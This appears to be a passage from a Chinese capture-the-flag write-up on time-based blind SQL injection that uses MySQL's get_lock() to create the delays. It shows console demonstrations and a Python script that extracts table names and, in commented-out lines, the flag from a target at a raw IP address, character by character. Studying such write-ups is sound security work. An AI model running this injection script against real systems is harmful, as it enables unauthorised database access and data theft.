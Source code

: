  cmd1:

```
mysql> select * from content where id = 1 and get_lock('skysec.top',1);
+----+-------------------------------------+
| id | content                             |
+----+-------------------------------------+
|  1 | I think you may need sql injection! |
+----+-------------------------------------+
1 row in set (0.00 sec)
```

cmd2:

```
mysql> select * from content where id =1 and 1 and get_lock('skysec.top',5);
Empty set (5.00 sec)

mysql> select * from content where id =1 and 0 and get_lock('skysec.top',5);
Empty set (0.00 sec)
```

脚本如下:

```python
# -*- coding: utf-8 -*-
import requests
import time
url1 = "http://52.80.179.198:8080/article.php?id=1' and get_lock('skysec.top',1)%23"
r = requests.get(url=url1)
time.sleep(90)
# 加锁后变换身份
url2 = "http://52.80.179.198:8080/article.php?id=1' and %s and get_lock('skysec.top',5)%%23"
data = ""
for i in range(1,1000):
    print i
    for j in range(33,127):
        #payload = "(ascii(substr((database()),%s,1))=%s)"%(i,j) #post
        payload = "(ascii(substr((select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database()),%s,1))=%s)" % (i, j) #article,flags
        #payload = "(ascii(substr((select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME='flags'),%s,1))=%s)" % (i, j) #flag
        #payload = "(ascii(substr((select flag from flags limit 1),%s,1))=%s)" % (i, j)
        payload_url = url2%(payload)
        try:
            s = requests.get(url=payload_url,timeout=4.5)
        except:
            data +=chr(j)
            print data
            break
```

总结:

必须使用长连接，即使用mysql_pconnect()
